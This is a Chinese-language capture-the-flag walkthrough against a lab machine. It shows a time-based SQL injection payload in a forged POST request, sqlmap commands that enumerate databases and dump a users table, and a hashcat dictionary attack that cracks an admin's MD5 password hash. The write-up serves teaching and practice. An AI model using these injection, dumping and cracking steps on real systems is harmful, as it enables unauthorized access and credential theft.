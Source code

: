     } else if (table_input == "creatures") {
    // console.log("CREATURES")
    
    $.ajax({
        url: `api/${table_input}/search`,
        type: 'POST',
        dataType: "json",
        data: { "nameCreature": `${name_input}` },

我们可以很轻松通过burp来伪造请求

首先在浏览器访问：

    http://10.10.195.127/api/people/search

然后burp抓包改包，get改post，按照上面代码来操作

    POST /api/creatures/search HTTP/1.1
    nameCreature=1' or sleep(3);--

成功延迟，存在sql注入

在burp将请求保存成文件

使用sqlmap -r 识别该文件并进行sql注入

    ┌──(root🐦kali)-[/home/sugobet]
    └─# sqlmap -r ./req --dbs

    available databases [6]:
    [*] information_schema
    [*] labyrinth
    [*] mysql
    [*] performance_schema
    [*] phpmyadmin
    [*] test

然后常规操作：

    sqlmap -r ./req -D labyrinth --tables
    sqlmap -r ./req -D labyrinth -T people --columns --dump

## 密码爆破

发现admin的账号和疑似md5加密的密码

    | 5        | M!n0taur     | 1765db94********09ee81fbda4 | admin            |

使用hashcat尝试一下：

    ┌──(root🐦kali)-[/home/sugobet]
    └─# hashcat -a 0 -m 0 '1765db9457f496a39859209ee81fbda4' /usr/share/wordlists/rockyou.txt
    hashcat (v6.2.6) starting

    1765db94*********09ee81fbda4:ami*****uro

爆出来了，前几道题都爆不出来，害我数据库一顿找

## 难道，我错了吗？
